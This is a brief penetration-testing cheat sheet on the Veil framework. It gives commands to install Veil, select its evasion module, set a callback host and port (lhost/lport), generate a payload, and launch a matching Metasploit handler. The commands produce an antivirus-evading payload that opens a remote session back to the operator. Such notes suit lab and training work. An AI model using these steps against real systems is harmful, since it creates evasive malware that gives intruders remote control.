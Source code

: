 # Veil

### Download veil from github

```bash
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

### Usage&#x20;

#### Start Veil

```bash
veil
```

#### Find out information about a module

```bash
info evasion
```

#### To use a module

```bash
use evasion
```

#### Set arguments

```bash
set lhost 192.168.119.138
set lport 443
```

#### Create the payload

```bash
generate
```

#### Setting up Metasploit handler

<pre class="language-bash"><code class="lang-bash"><strong>msfconsole -r /var/lib/veil/output/handlers/payload.rc
</strong></code></pre>
